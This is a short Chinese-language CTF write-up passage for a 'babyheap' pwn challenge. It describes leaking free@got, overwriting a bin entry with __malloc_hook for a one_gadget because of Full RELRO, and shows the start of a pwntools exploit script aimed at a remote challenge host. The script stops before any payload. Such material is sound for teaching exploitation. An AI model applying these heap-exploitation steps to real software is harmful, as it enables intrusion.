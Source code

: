 这时候bin[2]的位置是free@got,可以leak出地址



3.edit

将bin[2]覆盖为__malloc_hook

```
	Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

因为是FULL RELRO,所以不能够修改got表(我眼瞎....在这里跪了好久)

我们选择修改__malloc_hook为onegadget



4.随便add一个

```python
from pwn import *
from LibcSearcher import LibcSearcher
from time import sleep


# s = process("babyheap")
s = remote('119.23.206.23',10000)
elf = ELF("babyheap")
libc = ELF("./libc.so.6")

def add(size,data):
    # data = data.ljust(0x30,'\x00')
    s.sendline("1")
    raw_input(">") 
    s.sendline(str(size))
    raw_input(">") 
    s.sendline(data)
    raw_input(">") 
    s.recvuntil("choice>")

def delete(idx):
    s.sendline("2")
    raw_input(">")    
    s.sendline(str(idx))
    raw_input(">")    
    s.recvuntil("choice>")

def edit(idx,data):
    s.sendline("3")
    raw_input(">")    
    s.sendline(str(idx))
    raw_input(">")    
    s.sendline(data)
    raw_input(">")    
    s.recvuntil("choice>")

def show():   
    s.sendline("4")

bss = 0x0602040
free_got = elf.got['free']

prev_size = 0
size = 0x130
```
